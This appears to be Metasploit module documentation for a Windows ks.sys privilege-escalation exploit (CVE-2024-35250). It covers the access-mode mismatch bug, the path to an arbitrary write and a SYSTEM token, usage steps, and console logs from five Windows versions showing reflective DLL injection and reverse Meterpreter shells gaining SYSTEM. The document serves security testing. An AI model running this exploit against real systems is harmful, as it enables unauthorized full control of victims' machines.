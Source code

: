 ## Vulnerable Application
The ks.sys driver on Windows is one of the core components of Kernel Streaming and is installed by default. There exists
an Access Mode Mismatch LPE in this driver which can be exploited on some of the latest versions of Windows including:
- Windows 11 22H2,
- Windows 10 22H2
- Windows 10 1607
- Windows Server 2022
- Windows Server 2016

### About the Bug Class
Access Mode Mismatch bugs in the Windows kernel center around the PreviousMode member of the `KTHREAD` structure. Every
thread has a previous access mode associated with it. The PreviousMode is set to UserMode(1) if a user operates on a
device or file through Nt* System Service Call, indicating that the System Service call is from the user. The PreviousMode
is set to KernelMode(2) if for example a device driver invoking the Zw* System Service Call.

RequestorMode is a similar field in the I/O Request Packet (IRP) which indicates if the original request came from
KernelMode or UserMode. This commonly used field is typically derived from PreviousMode.

### About the Vulnerability
An application can use `IOCTL_KS_PROPERTY` to get or set properties, or to determine the properties supported by a KS
object. An application passes `IOCTL_KS_PROPERTY` to the `ks!KsSynchronousIoControlDevice` with a few parameters:
Major Code, Input Buffer, Input Buffer Length, Output Buffer, Output Buffer Length and Status Code. To improve
efficiency in `IOCTL_KS_PROPERTY` of Kernel Streaming, the requests `KSPROPERTY_TYPE_SERIALIZESET` and
`KSPROPERTY_TYPE_UNSERIALIZESET` are provided to allow users to operate on multiple properties in a single call.

The vulnerability stems from the driver's use of the function `ks!KsSynchronousIoControlDevice`. There are multiple calls
to this function throughout the driver which incorrectly hard code the RequestorMode parameter value KernelMode. The
vulnerable function `ks!KsSynchronousIoControlDevice` can be invoked by issuing a `KSPROPERTY_TYPE_UNSERIALIZESET` request
in which user controlled parameters are handled with KernelMode privileges specifically when the property is set to
`KSPROPSETID_DrmAudioStream`. This provides a primitive that allows users to perform arbitrary `IOCTL_KS_PROPERTY`
operations.

To achieve EoP with this primitive first kCFG must be bypassed. By using the legitimate function `RtlSetAllBits` from
ntoskrnl.exe, the arbitrary `IOCTL_KS_PROPERTY` operation can be turned into a arbitrary write primitive which can be used
to achieve EoP by whatever typical method the user prefers. This module uses the write primitive to replace the
current process token with a system token. Abusing token privileges is also an option.

### Setup

Install Windows 10 22H2 (before 10.0.19045.4529) on any HyperVisor other than Hyper-V. Hyper-V does not have an audio
device by default, causing the exploit to fail.

## Verification Steps

1. Start msfconsole
1. Get a user level session on an affected Windows machine
1. Do: `use windows/local/cve_2024_35250_ks_driver`
1. Set the `LHOST`, `LPORT`, and `SESSION` options
1. Run the module
1. Receive a session running in the context of the `NT AUTHORITY\SYSTEM` user.

## Scenarios
### Windows 10 22H2 (10.0 Build 19045)
```
msf6 exploit(windows/local/cve_2024_35250_ks_driver) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 192.168.123.1:5555
[!] SESSION may not be compatible with this module:
[!]  * incompatible session type: meterpreter. This module works with: .
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Launching notepad to   host the exploit...
[*] The notepad path is: C:\Windows\System32\notepad.exe
[*] The notepad pid is: 1012
[*] Reflectively injecting the DLL into 1012...
[*] Sending stage (201798 bytes) to 192.168.123.236
[*] Meterpreter session 3 opened (192.168.123.1:5555 -> 192.168.123.236:49676) at 2024-11-04 09:47:50 -0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-0OPTL76
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```

### Windows 10 1607 (10.0 Build 14393)
```
msf6 exploit(windows/local/cve_2024_35250_ks_driver) > run

[*] Started reverse TCP handler on 192.168.123.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: Windows 10+ Build 14393
[*] Launching notepad to host the exploit...
[*] The notepad path is: C:\Windows\System32\notepad.exe
[*] The notepad pid is: 4272
[*] Reflectively injecting the DLL into 4272...
[*] Sending stage (201798 bytes) to 192.168.123.240
[*] Meterpreter session 5 opened (192.168.123.1:5555 -> 192.168.123.240:49675) at 2024-11-05 10:19:30 -0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-4A5TFR5
OS              : Windows 10 (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows 11 22H2 (10.0 Build 22621)
```
msf6 exploit(windows/local/cve_2024_35250_ks_driver) > run

[*] Started reverse TCP handler on 192.168.123.1:5555
[!] SESSION may not be compatible with this module:
[!]  * incompatible session type: meterpreter. This module works with: .
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Launching notepad to   host the exploit...
[*] The notepad path is: C:\Windows\System32\notepad.exe
[*] The notepad pid is: 6948
[*] Reflectively injecting the DLL into 6948...
[*] Sending stage (201798 bytes) to 192.168.123.1
[*] Meterpreter session 7 opened (192.168.123.1:5555 -> 192.168.123.1:52543) at 2024-11-04 11:22:59 -0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : MSFDEVICE
OS              : Windows 11 (10.0 Build 22621).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows Server 2022 (10.0 Build 20348)
```
msf6 exploit(windows/local/cve_2024_35250_ks_driver) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 172.16.199.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: Windows Server 2016+ Build 20348
[*] Launching notepad to host the exploit...
[*] The notepad path is: C:\Windows\System32\notepad.exe
[*] The notepad pid is: 7336
[*] Reflectively injecting the DLL into 7336...
[*] Sending stage (201798 bytes) to 172.16.199.132
[*] Meterpreter session 3 opened (172.16.199.1:5555 -> 172.16.199.132:49977) at 2024-11-05 10:03:36 -0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-LBHI5KSJDU4
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

### Windows Server 2016 (10.0 Build 14393)
```
msf6 exploit(windows/local/cve_2024_35250_ks_driver) > run

[*] Started reverse TCP handler on 172.16.199.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: Windows Server 2016+ Build 14393
[*] Launching notepad to host the exploit...
[*] The notepad path is: C:\Windows\System32\notepad.exe
[*] The notepad pid is: 316
[*] Reflectively injecting the DLL into 316...
[*] Sending stage (201798 bytes) to 172.16.199.135
[*] Meterpreter session 7 opened (172.16.199.1:5555 -> 172.16.199.135:49691) at 2024-11-05 13:48:17 -0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-4DS9S9C0JSC
OS              : Windows Server 2016 (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

